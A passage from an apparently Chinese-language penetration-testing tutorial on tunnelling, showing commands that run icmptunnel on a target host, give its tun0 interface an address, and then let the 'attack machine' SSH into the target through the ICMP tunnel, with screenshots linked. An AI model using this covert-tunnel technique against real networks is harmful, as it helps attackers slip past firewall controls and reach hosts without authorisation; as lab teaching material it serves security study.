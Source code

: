 ![image-20221031211600031](隧道应用/image-20221031211600031.png)	



目标主机输入如下命令连接服务端并分配IP, 连接成功会显示"connection established"

```
root@ubuntu:/home/xiaodi/Desktop/icmptunnel# ./icmptunnel 192.168.47.134
opened tunnel device: tun0
connection established.
```

```
root@ubuntu:/home/xiaodi# ifconfig tun0 10.0.0.2 netmask 255.255.255.0
root@ubuntu:ifconfig
```

![image-20221031211632081](隧道应用/image-20221031211632081.png)	



完成以上步骤则代表隧道建立完毕, 可以在攻击机(服务端)使用ssh连接目标主机(客户端)

![image-20221031211858403](隧道应用/image-20221031211858403.png)	
